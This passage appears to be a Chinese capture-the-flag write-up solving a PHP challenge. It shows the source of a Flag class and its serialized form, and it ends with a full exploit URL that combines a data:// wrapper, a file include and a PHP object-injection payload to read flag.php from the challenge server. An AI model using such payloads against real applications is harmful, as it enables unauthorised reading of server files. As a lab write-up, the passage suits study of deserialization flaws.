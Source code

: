 ```php
<?php  
class Flag{  
    public $file="flag.php";  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("So cool,continue plz");
        }  
    }  
}  
  
$password = new Flag();
echo serialize($password);
?>
```

序列化后为https://c.runoob.com/compile/1

```
O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}
```

将反序列化的值传给password。

```
password=O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}
```

完整的payload如下

```
http://124.71.149.53:8089/?sz_txt=data://text/plain;base64,d2VsY29tZSB0byBqeHN6&sz_file=useless.php&password=O:4:%22Flag%22:1:{s:4:%22file%22;s:8:%22flag.php%22;}
```

这里需要注意的是`sz_file=useless.php`这里必须引入useless.php，不然在反序列化的时候找不到类。通过useless.php的_toString()方法打印出flag.php。

![image-20200908091143563](pictures/image-20200908091143563.png)
